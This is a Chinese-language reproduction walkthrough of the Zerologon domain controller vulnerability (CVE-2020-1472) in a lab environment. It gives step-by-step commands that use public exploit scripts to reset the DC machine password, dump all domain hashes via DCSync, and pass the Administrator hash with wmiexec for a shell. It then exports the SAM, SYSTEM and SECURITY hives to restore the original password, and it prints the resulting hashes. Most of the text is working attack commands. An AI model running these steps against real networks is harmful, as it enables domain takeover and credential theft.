







漏洞介绍
2020年08月12日，Windows官方 发布了 NetLogon 特权提升漏洞 的风险通告，该漏洞编号为 CVE-2020-1472，漏洞等级：严重，漏洞评分：10分
攻击者通过NetLogon（MS-NRPC），建立与域控间易受攻击的安全通道时，可利用此漏洞获取域管访问权限。成功利用此漏洞的攻击者可以在该网络中的设备上运行经特殊设计的应用程序
影响版本
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)
复现环境
版本: Windows Server 2012
IP: 10.99.99.253
Blosname: OWA2013 (域控的主机名)
漏洞工具
impacket https://github.com/SecureAuthCorp/impacket
重置域内管理员密码poc https://github.com/dirkjanm/CVE-2020-1472
恢复密码poc https://github.com/risksense/zerologon
漏洞复现
福漏洞开始使用exp重置管理员密钥
python3 cve-2020-1472-exploit.py OWA2013 10.99.99.253

通过 Dcsync获取域内所有有用户hash
python3 secretsdump.py rootkit/OWA2013\$@10.99.99.253 -just-dc -no-pass

得到了域控的 Hash:
rootkit.org\Administrator:500:aad3b435b51404eeaad3b435b51404ee:518b98ad4178a53695dc997aa02d455c:::
通过 wmic hash 传递获取shell：
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:518b98ad4178a53695dc997aa02d455c rootkit.org/Administrator@10.99.99.253

通过导出 sam system 等文件到本地，获取域控机器上本地保存之前的 hash 值用于恢复，不然就脱域了：
备份注册表
导出注册表文件
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
将文件下载到本地
get system.save
get sam.save
get security.save
删除文件
del /f system.save
del /f sam.save
del /f security.save

之后你会发现再你的当前机器会生成几个文件：sam.save、security.save、system.save

之后通过 sam.save、security.save、system.save 这些文件获得原来域控机器上的 Ntlm Hash 值，用于恢复密码：
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

通过拿到 $MACHINE.ACC: 的值，然后进行恢复(注意只有后半部分)
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:7e304360db8cdb95d09a960607fcc526
恢复密码
python3 reinstall_original_pw.py OWA2013 10.99.99.253 7e304360db8cdb95d09a960607fcc526

验证是否恢复密码成功
python3 secretsdump.py rootkit/OWA2013\$@10.99.99.253 -just-dc -no-pass
